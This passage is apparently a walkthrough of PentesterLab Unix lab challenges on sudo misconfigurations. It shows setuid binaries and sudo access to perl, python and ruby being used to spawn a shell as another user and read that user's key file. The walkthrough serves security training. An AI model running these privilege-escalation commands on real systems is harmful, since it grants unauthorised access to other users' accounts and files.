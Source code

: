Once you've got the above into a file, use `gcc -o /tmp/lmao lmao.c` (output file name first, then input filename.) to compile your file, and output it as a new compiled `C` program, in this case `lmao`.

Next, we'll use `sudo -u victim cp lmao lmaovic` to copy it into a new file, which is now owned by the `victim` user. Then, we'll use `sudo -u victim chmod +xs lmaovic` to set the `setuid/gid` bits on the file. Now, we can run the file a our `pentester` lab user, but because of the `setuid`, it will run with the same permissions as the `victim` user, and thus print out the key. If we try to run the first copy of our file (owned by pentesterlab), we'll get a permission denied error as we're trying to read a file from a directory we don't have access to.

### Unix 31
[Challenge URL](https://pentesterlab.com/exercises/unix_31/course)

Here we're using `sudo` with the `perl` language. We can either use `sudo -u victim perl -e 'print `cat /home/victim.txt`'`
Formatting is fucked up, but it's a single quote `'` before `print` and at the very end of the statement, and backticks (`` ``) before `cat` and at the end of `txt`, before the final single-quote.

Alternatively, we can use `sudo -u victim perl -e '`/bin/bash`'` with the same single-quote/backtick scheme, however we won't get any output to STDOUT with this shell, but because we know the file exists, we can copy the file as `victim` user to the `/tmp` directory, where our `pentesterlab` user has permissions, use `chmod 777` on the copied file to give everyone every permission on it, then exit the shell and read the contents as our `pentesterlab` user.

### Unix 32
[Challenge URL](https://pentesterlab.com/exercises/unix_32/course)

This challenge we're abusing another `sudo` misconfig that allows us to run `python`. Using `python`'s REPL (read-evaluate-print-loop). We start with `sudo -u victim python` to drop into a REPL as the `victim` user.
We're told to import the `call` module from `subprocess`, we do this with
```python
>>> from subprocess import call
## Now we can run most system commands like so;
>>> call(['uname'])
## We could also use the 'os' module;
>>> import os
>>> os.system('uname')
## To get a victim user shell;
>>> call(['/bin/bash'])
## or
>>> os.system('/bin/bash')
## To directly print key
>>> os.system('cat /home/victim/key.txt')
## or
>>> call(['cat', '/home/victim/key.txt'])
```

### Unix 33
[Challenge URL](https://pentesterlab.com/exercises/unix_33/course)

Again with the `sudo` misconfigs, this time with `ruby`. To start a REPL with ruby as the `victim` user, we'll use `sudo -u victim ruby -e 'require "irb" ; IRB.start(__FILE__)'`, from there, we'll use backticks to wrap system commands. We should now have a shell prompt along the lines of `irb(main):001:0>`, from there we'll use `cat /home/victim/key.txt` to read the key, or we could use `/bin/bash` to spawn a shell as the victim user.
